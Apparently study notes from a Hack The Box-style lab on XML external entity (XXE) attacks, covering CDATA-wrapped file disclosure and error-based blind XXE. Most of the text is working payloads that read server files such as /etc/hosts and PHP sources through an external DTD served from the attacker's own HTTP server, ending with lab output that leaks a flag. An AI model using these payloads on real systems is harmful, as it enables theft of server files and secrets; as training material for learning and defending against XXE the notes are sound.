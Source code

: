 # Advanced File Disclosure

## Advanced Exfiltration with CDATA

If we wrap the content of the external file reference with a CDATA, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>

--> This will not work, since XML prevents joining internal and external entities

## Special entity using % in DTD

echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000

<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->

## Error Based XXE

If the application does not write any output : blind attack

Write a xxe.dtd file which contains :

<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">

python3 -m http.server 8000


<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>

## LAB

http://10.129.31.16/error/

vi xxe.dtd

<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">

python3 -m http.server 8000


<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.15.52:8000/xxe.dtd">
  %remote;
  %error;
]>


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.15.52:8000/xxe.dtd">
  %remote;
  %error;
]>
<root>
<name>a</name>
<tel></tel>
<email>a@test.com</email>
<message>a</message>
</root>

:  DOMDocument::loadXML(): Invalid URI: /&lt;?php $flag = &quot;HTB{3rr0r5_c4n_l34k_d474}&quot;; ?&gt; in Entity, line: 2 in <b>/var/www/html/error/submitDetails.php